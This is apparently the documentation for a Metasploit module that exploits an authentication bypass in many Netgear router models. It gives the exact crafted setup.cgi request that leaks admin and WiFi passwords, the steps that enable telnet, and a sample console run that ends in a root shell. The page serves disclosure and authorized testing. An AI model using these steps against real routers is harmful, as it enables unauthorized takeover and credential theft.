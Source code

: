 ## Vulnerable Application

### Intro
This module targets an authentication bypass vulnerability in the `mini_http` binary of several Netgear Routers
running firmware versions prior to `1.2.0.88`, `1.0.1.80`, `1.1.0.110`, and `1.1.0.84`.

Specifically, a call to `strstr()` is used to check if any incoming requests to authenticated pages contain
the string `todo=PNPX_GetShareFolderList` anywhere within the request. If this string is found anywhere within
the request, the request will be marked as an authenticated request, and will be treated as though it came from
a logged in administrative user.

By using this vulnerability to send a request to `/setup.cgi` with the `next_file` GET parameter set to `BRS_swisscom_success.html`
and a `x` GET parameter set to `todo=PNPX_GetShareFolderList`, an unauthenticated attacker can leak the plaintext versions of
all of the router's WiFi passwords, as well as the admin username and plaintext admin password for the router.

Once the password has been been obtained, the exploit enables telnet on the target router by sending a request to `setup.cgi`
with the `todo` GET parameter set to `debug`. Once telnet has been enabled, it then utilizes the
`auxiliary/scanner/telnet/telnet_login` module to log into the router using the stolen credentials of the
`admin` user. This will result in the attacker obtaining a new telnet session as the `root` user.

This vulnerability was discovered and exploited by an independent security researcher who reported it to SSD.

### Affected Versions

- AC2100 prior to firmware version 1.2.0.88
- AC2400 prior to firmware version 1.2.0.88
- AC2600 prior to firmware version 1.2.0.88
- D7000 prior to firmware version 1.0.1.80
- R6220 prior to firmware version 1.1.0.110
- R6230 prior to firmware version 1.1.0.110
- R6260 prior to firmware version 1.1.0.84
- R6330 prior to firmware version 1.1.0.84
- R6350 prior to firmware version 1.1.0.84
- R6700v2 prior to firmware version 1.2.0.88
- R6800 prior to firmware version 1.2.0.88
- R6850 prior to firmware version 1.1.0.84
- R6900v2 prior to firmware version 1.2.0.88
- R7200 prior to firmware version 1.2.0.88
- R7350 prior to firmware version 1.2.0.88
- R7400 prior to firmware version 1.2.0.88
- R7450 prior to firmware version 1.2.0.88

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass`
  3. Do: `set RHOSTS <RouterIP>`
  5. Do: `exploit`
  6. Verify that you get a new telnet shell as the `root` user on the target router.

## Options

## Scenarios

### Netgear AC1600 aka R6260 with Firmware Version 1.1.0.40_1.0.1
```
    msf6 > use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass
    msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > set RHOSTS 192.168.1.1
    RHOSTS => 192.168.1.1
    msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > show options

    Module options (auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS   192.168.1.1      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                        oit
    RPORT    80               yes       The target port (TCP)
    SSL      false            no        Negotiate SSL/TLS for outgoing connections
    VHOST                     no        HTTP server virtual host

    msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > run
    [*] Running module against 192.168.1.1

    [*] Running automatic check ("set AutoCheck false" to disable)
    [*] Target is a R6260 router running firmware version 1.1.0.40_1.0.1
    [+] The target appears to be vulnerable.
    [*] Confirming target is a Netgear Router...
    [+] Target is a Netgear router!
    [*] Attempting to leak the password of the admin user...
    [+] Can log into target router using username admin and password theRiverOfNope123!
    [*] Attempting to retrieve /top.html to verify we are logged in!
    [*] Sending one request to grab authorization cookie from headers...
    [*] Got the authentication cookie, associating it with a logged in session...
    [+] Successfully logged into target router using the stolen credentials!
    [*] Attempting to store stolen admin and WiFi credentials for future use...
    [*] Enabling telnet on the target router...
    [+] Telnet enabled on target router!
    [*] Attempting to log in with admin:theRiverOfNope123!. You should get a new telnet session as the root user
    [*] Command shell session 1 opened (192.168.224.128:38283 -> 192.168.1.1:23) at 2021-09-22 13:56:50 -0500
    [*] Auxiliary module execution completed
    msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > sessions -i 1
    [*] Starting interaction with 1...



    # id
    id
    -sh: id: not found
    # whoami
    whoami
    -sh: whoami: not found
    # uname -a
    uname -a
    Linux R6260 2.6.36 #7 SMP Fri Jul 20 17:14:50 CST 2018 mips unknown
    # ls -al
    ls -al
    drwxr-xr-x   12 root     root          286 Jun 21  2016 .
    drwxr-xr-x   12 root     root          286 Jun 21  2016 ..
    lrwxrwxrwx    1 root     root            9 Jul 20  2018 bin -> usr/sbin/
    drwxrwxr-x    2 root     root            3 Aug 15  2015 data
    drwxr-xr-x    5 root     root            0 Dec 31 16:00 dev
    lrwxrwxrwx    1 root     root            8 Jul 20  2018 etc -> /tmp/etc
    lrwxrwxrwx    1 root     root           11 Jul 20  2018 etc_ro -> /tmp/etc_ro
    lrwxrwxrwx    1 root     root           20 Jul 20  2018 home -> /tmp/home_directory/
    lrwxrwxrwx    1 root     root           11 Jul 20  2018 init -> bin/busybox
    drwxr-xr-x    6 root     root         4629 Jul 20  2018 lib
    drwxr-xr-x    2 root     root            0 Dec 31 16:00 media
    lrwxrwxrwx    1 root     root            8 Jul 20  2018 mnt -> /tmp/mnt
    drwxrwxr-x    6 root     root           73 Jul 20  2018 opt
    dr-xr-xr-x  113 root     root            0 Dec 31 16:00 proc
    lrwxrwxrwx    1 root     root            9 Jul 20  2018 sbin -> usr/sbin/
    drwxr-xr-x   11 root     root            0 Dec 31 16:00 sys
    drwxr-xr-x   16 root     root            0 Dec 31 19:21 tmp
    drwxr-xr-x   10 root     root          151 Jun 21  2016 usr
    lrwxrwxrwx    1 root     root            8 Jul 20  2018 var -> /tmp/var
    lrwxrwxrwx    1 root     root            8 Jul 20  2018 www -> /tmp/www
    drwxrwxr-x    8 root     root        16662 Jul 20  2018 www.eng
    # busybox
    busybox
    BusyBox v1.12.1 (2018-07-18 20:59:15 CST) multi-call binary
    Copyright (C) 1998-2008 Erik Andersen, Rob Landley, Denys Vlasenko
    and others. Licensed under GPLv2.
    See source distribution for full notice.

    Usage: busybox [function] [arguments]...
    or: function [arguments]...

            BusyBox is a multi-call binary that combines many common Unix
            utilities into a single executable.  Most people will create a
            link to busybox for each function they wish to use and BusyBox
            will act like whatever it was invoked as!

    Currently defined functions:
            [, [[, arp, ash, awk, basename, bunzip2, bzcat, cat, chmod, chpasswd,
            cp, cut, date, dd, df, dmesg, echo, expr, false, fdisk, find, free,
            ftpget, grep, gzip, halt, head, hexdump, hostname, ifconfig, init,
            init, insmod, kill, killall, ln, login, ls, lsmod, md5sum, mdev,
            mkdir, mknod, more, mount, mv, netstat, nice, passwd, pidof, ping,
            ping6, poweroff, ps, pwd, reboot, renice, rm, rmmod, route, sed,
            seq, sh, sleep, sync, tail, tar, taskset, telnetd, test, tftp,
            time, top, touch, tr, traceroute, true, umount, uname, unzip, vconfig,
            vi, wc, wget

    #
```
